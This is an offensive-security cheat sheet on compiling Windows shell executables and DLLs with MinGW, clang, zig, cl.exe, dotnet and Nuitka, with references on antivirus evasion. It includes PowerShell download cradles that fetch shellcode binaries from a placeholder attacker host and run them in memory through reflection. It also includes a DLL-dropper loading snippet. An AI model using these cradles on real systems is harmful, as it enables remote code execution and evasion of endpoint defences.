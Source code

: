 # Windows

## 01 - MASM

TODO: Write examples how to compile an assembly via MASM

## 02 - C

- **Compile Windows binaries in Linux**

`$ i686-w64-mingw32-gcc shellcode.c -o shell.exe`

`$ x86_64-w64-mingw32-gcc shellcode.c -o shell.exe`

`$ clang -target x86_64-pc-windows-gnu shell.c -o shell.exe`

`$ zig cc --target=x86_64-windows-gnu -static shell.c -o shell.exe`

- **Compile Windows binaries in Linux with icons**

`$ x86_64-w64-mingw32-windres resource.rc resource.o`

`$ x86_64-w64-mingw32-gcc -o shell.exe resource.o shell.c`

- **Compile Windows Dynamic Linked Library in Linux**

`$ i686-w64-mingw32-gcc shellcode.c -shared -o shell-x86.dll`

`$ x86_64-w64-mingw32-gcc shellcode.c -shared -o shell-x86_64.dll`

- **Compile Windows binaries**

`C:\> cl.exe /W4 /EHsc shellcode.c /link /out:shellcode.exe`

- **Compile Windows Dynamic Linked Library**

`C:\>`

- **Compile Windows binaries with icons**

`C:\> rc resource.rc`

`C:\> cvtres /machine:x64 /out:resource.o resource.res`

`C:\> cl.exe /nologo /0x /W0 /GS- /DNDEBUG /Tc:shell.c /link /out:shell.exe /subsystem:console /machine:x64 resource.o`

## 03 - C++

- **Compile Windows binaries in Linux**

`$ i686-w64-mingw32-g++ shell.cpp -o shell.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc`

`$ x86_64-w64-mingw32-g++ shell.cpp -o shell.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive`

`$ clang++ -target x86_64-pc-windows-gnu shell.cpp -o shell.exe`

`$ zig c++ --target=x86_64-windows-gnu  -static shell.cpp -o shell.exe`

- **Compile Windows Dynamic Linked Library in Linux**

`$ i686-w64-mingw32-g++ shell.cpp -o shell.dll -shared -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc`

`$ x86_64-w64-mingw32-g++ shell.cpp -o shell.dll -shared -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive`

- **Compile Windows binaries in Windows**

`C:\> g++ shell.cpp -o shell.exe -s -static -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive`

`C:\> cl.exe /W4 /EHsc shellcode.cpp /link /out:shellcode.exe`

- **Compile Windows Dynamic Linked Library in Windows**

`C:\> g++ shell.cpp -o shell.dll -shared -s -static -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive`

## 04 - C\#

- **Create .NET Console Project**

`C:\> dotnet new console`

- **Compile C# Project of Windows executable**

`C:\> dotnet publish -r win-x64 -c Release -p:PublishSingleFile=true --sc false -p:PublishTrimmed=true`

`C:\> dotnet publish -r win10-x64 -c Release -p:PublishSingleFile=true --sc false -p:PublishTrimmed=true`

`C:\> dotnet publish -f net6.0 -r win-x64 -c Release -p:PublishSingleFile=true --sc false -p:PublishTrimmed=true`

Or you can just use `build`

`C:\> dotnet build -r win-x64 -c Release -p:PublishSingleFile=true -p:PublishTrimmed=true`

`C:\> dotnet build -r win-x64 -c Release -p:PublishSingleFile=true -p:AllowUnsafeBlocks=true -p:PublishTrimmed=true`

`$ cat download-cradle-exe.ps1`

---

```powershell
$data = (New-Object Net.WebClient).DownloadData("http://<IP>/Shellcode.exe")
$assem = [System.Reflection.Assembly]::Load($data)
[Shell.Program()]::Main()
# [Program()]::Main()
# [Shell.Program()]::Main("".Split())
```

- **Compile C# DLL**

`C:\> dotnet new classlib`

`C:\> dotnet publish -r win-x64 -c Release --sc false -p:PublishTrimmed=true`

`C:\> dotnet build -r win-x64 -c Release --sc false -p:PublishTrimmed=true`

Allow unsafe code

`C:\> dotnet publish -r win-x64 -c Release -p:AllowUnsafeBlocks=true --sc false -p:PublishTrimmed=true`

`C:\> dotnet build -c Release -p:AllowUnsafeBlocks=true --sc false -p:PublishTrimmed=true`

Execute Shellcode

```
PS C:\> [System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("DLLDropper.dll")
PS C:\> [RunDLLPublicFunc.Class1]::runner()
```

`$ cat download-cradle-dll.ps1`

---

```powershell
$data = (New-Object Net.WebClient).DownloadData("http://<IP>/Shellcode.dll")
$assembly = [System.Reflection.Assembly]::Load($data)
$class = $assembly.GetType("Shellcode.Class1")
$method = $class.GetMethod("<method_name>")
$method.Invoke(0, $null)
```

## 05 - Python

`$ nuitka.bat --onefile shell.py`

## References

- [Quickpost Compiling EXEs and Resources with Mingw on Kali](https://blog.didierstevens.com/2018/09/17/quickpost-compiling-exes-and-resources-with-mingw-on-kali/)

- [Zig C Compiler Powerful Drop in Replacment GCC Clang](https://andrewkelley.me/post/zig-cc-powerful-drop-in-replacement-gcc-clang.html)

- [Purpl3f0xsecur1ty.tech AV Evasion.html](https://www.purpl3f0xsecur1ty.tech/2021/03/30/av_evasion.html)

- [https://medium.com/@carlosprincipal1/how-to-bypass-antivirus-av-2020-easy-method-69749892928b](https://medium.com/@carlosprincipal1/how-to-bypass-antivirus-av-2020-easy-method-69749892928b)

- [https://github.com/In3x0rabl3/OSEP](https://github.com/In3x0rabl3/OSEP)

- [https://dotnet.microsoft.com/en-us/download/dotnet-framework/net481](https://dotnet.microsoft.com/en-us/download/dotnet-framework/net481)

- [Nuitka](https://nuitka.net/)